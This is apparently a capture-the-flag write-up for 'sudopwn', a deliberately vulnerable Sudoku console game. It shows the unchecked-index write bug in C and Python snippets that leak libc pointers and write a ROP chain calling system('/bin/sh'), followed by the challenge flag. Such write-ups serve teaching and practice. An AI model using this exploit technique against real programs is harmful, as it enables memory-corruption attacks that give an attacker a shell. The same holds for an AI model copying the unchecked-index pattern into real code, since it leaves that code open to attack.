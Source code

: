 # sudopwn

## Write-up

- [Source code](../src/sudopwn.c)

- This is basically a Sudoku console game

- The `fill_board` function does not check bounds for the row and column indexes :

```c
void fill_board(Board board[N][N]) {
  int row, col, val;

  row = read_num("Row index: ");
  col = read_num("Column index: ");
  val = read_num("Value: ");

  board[row][col] = val;
}
```

- This allows us to write any int value to any place in memory

- We can opt for writing a ROP chain on `main`'s return address that triggers `system("/bin/sh")` to get a shell

- But first we need a libc leak : since the board is not initialized we can print it and leak some useful pointers along the way

- With some parsing effort, we can reconstitute the stack layout of the Sudoku board :

```python
# uninitialized board leaks some address pointers
board = show()

# convert board to stack addresses
a = [ c_uint(num).value for num in sum(board, [])[:-1] ]
stack = [ (a[i+1] << 4*8) | a[i] for i in range(0, len(a), 2) ]
```

- After dynamically analyzing the stack in GDB, we find a libc address at index 14 starting from the Sudoku board on the stack

- After leaking a libc address, the goal is to use the arbitrary write to write the ROP chain starting from the return address of `main`, so we need to convert our ROP chain to board values :

```python
payload = [
    pop_rdi,
    next(libc.search(b"/bin/sh\0")),
    ret, # needed for stack alignment
    libc.sym.system,
]

# convert payload to board values
a = [ c_int(val).value for val in sum([ [val & 0xffffffff, val >> 4*8] for val in payload ], []) ]

# write rop chain
for i, val in enumerate(a):
    fill(9, i + 5, val)
```

- Finally we trigger our ROP chain by exiting the game (option 5)

- Full automated exploit with pwntools [here](solve.py)

## Flag

`shellmates{th3_WH0lE_4ddre$s_sP4c3_Is_4_sUD0kU_b0aRD!!!}`
